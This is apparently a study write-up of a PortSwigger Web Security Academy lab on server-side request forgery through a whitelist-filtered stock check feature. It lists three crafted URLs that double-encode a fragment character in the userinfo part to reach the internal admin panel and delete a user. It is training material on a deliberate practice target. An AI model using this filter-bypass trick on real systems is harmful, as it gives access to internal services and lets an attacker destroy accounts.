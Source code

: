 
# Lab #4 - SSRF with whitelist-based input filter

https://portswigger.net/web-security/ssrf#ssrf-with-whitelist-based-input-filters
https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter

https://www.youtube.com/watch?v=DzLcUyjPljE&list=PLuyTk2_mYISIlDtWBIqmgJgn6CYlzHVsQ&index=5
https://github.com/rkhal101/Web-Security-Academy-Series/tree/main/ssrf/lab-04


Vulnerable feature - stock check functionality

Goal - change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos. 

Analysis:

localhost: http://localhost%2523@stock.weliketoshop.net
admin interface: http://localhost%2523@stock.weliketoshop.net/admin
delete user: http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos



